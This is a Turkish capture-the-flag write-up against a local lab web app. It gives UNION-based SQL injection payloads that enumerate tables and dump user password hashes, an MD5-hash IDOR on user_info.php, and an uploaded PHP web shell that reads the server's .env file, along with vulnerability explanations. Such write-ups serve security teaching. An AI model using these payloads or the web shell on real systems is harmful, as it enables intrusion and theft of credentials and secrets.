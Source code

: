 **

# FLAG 1

- Veri tabanında 3 tane tablo yer almaktadır.
- asd'UNION SELECT "i",table_name,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema=database()-- ASD
- SQL Injection kullanılarak information_schema.tables içeriği çekildi ve flags isimli tablo keşfedildi.
- asd'UNION SELECT "i",column_name,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='flags'-- ASD
- Ardından flags tablosundaki içerik çekildi:
- asd'UNION SELECT "i",flag_value,NULL,NULL,NULL,NULL FROM flags-- ASD

#### Güvenlik Açığı:
- Kullanıcı girişinde SQL sorgusu doğrudan veri tabanına gönderilmiş.
- Parametreler hazırlanamamış (prepared statements eksik).
- Veritabanı tabloları bilgi sızdırılabilir durumda.
### YZT_FLAG1{f94222bbb8976f1a753a25be2c81384a}
# FLAG 2

- asd'UNION SELECT "i",column_name,NULL,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'-- ASD
- asd'UNION SELECT "i",password,NULL,NULL,NULL,NULL FROM users-- ASD
- asd'UNION SELECT "i",username,NULL,NULL,NULL,NULL FROM users-- ASD
- hash cracker la  [a87ff679a2f3e71d9181a67b7542122c](http://localhost:8081/admin/user_info.php?user_id=a87ff679a2f3e71d9181a67b7542122c) bu 4 olduğunu keşfettik.
- user_id parametresi ile doğrudan erişim sağlanabiliyor. 1 kullanıcısının MD5 hash'i kullanıldı:
- 1 → c4ca4238a0b923820dcc509a6f75849b
- ve user_id ye ekledik ve flag2 bulundu.

#### Güvenlik Açığı:
- user_id olarak hash değer göndererek yetkisiz kullanıcı bilgisi elde edilebiliyor.
- Kimlik doğrulama kontrolleri eksik veya zayıf.
- MD5 gibi zayıf bir algoritma ile kullanıcı doğrulama yapılmış.
### YZT_FLAG2{998be3c05163e29054a6a0a82afd6435} 

# FLAG 3

- http://localhost:8081/admin/user_info.php?user_id=c4ca4238a0b923820dcc509a6f75849b 
- Content-Disposition: form-data; name="file"; filename="patatest.php" 
- Content-Type: text/plain 
- <?php 
- // 'ls' komutunu çalıştır 
- $output = shell_exec('cat ../../.env'); 
- // Çıktıyı ekrana yazdır 
- echo "<pre>$output</pre>"; 
- ?> 
- Repeaterda bu isteği de gönder 
- GET /admin/uploads/patatest.php HTTP/1.1 
- Host: localhost:8081 
- sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134" 
- sec-ch-ua-mobile: ?0 
- sec-ch-ua-platform: "macOS" 
- Accept-Language: tr-TR,tr;q=0.9 
- Upgrade-Insecure-Requests: 1 
- User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 
- Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7 
- Sec-Fetch-Site: none 
- Sec-Fetch-Mode: navigate 
- Sec-Fetch-User: ?1 
- Sec-Fetch-Dest: document 
- Accept-Encoding: gzip, deflate, br 
- Cookie: PHPSESSID=3dc3ed0ed831f473ad06fb91b7b19e51 
- Connection: keep-alive 

YZT_FLAG1{b2e605ed389aef58002aa7132ad26d98} 

YZT_FLAG2{998be3c05163e29054a6a0a82afd6435} 

YZT_FLAG3{0d466c517e6437c8f6195e90fb3b7c2d}

#### Güvenlik Açığı:
- Sunucuya PHP uzantılı dosya yüklenebiliyor.
- Yüklenen dosya çalıştırılabiliyor (Web Shell gibi).
- .env dosyası gibi kritik yapılandırma dosyaları dışarı sızdırılabiliyor.
  

### SONUÇ

Uygulama, SQL injection, zayıf kimlik doğrulama ve dosya yükleme zafiyetlerine karşı savunmasızdır. Bu zafiyetler birleştiğinde bir saldırgan sisteme tam erişim sağlayabilir. Özellikle .env dosyası ve shell komutları çalıştırılabiliyor olması kritik bir RCE (Remote Code Execution) zaafiyetidir.

**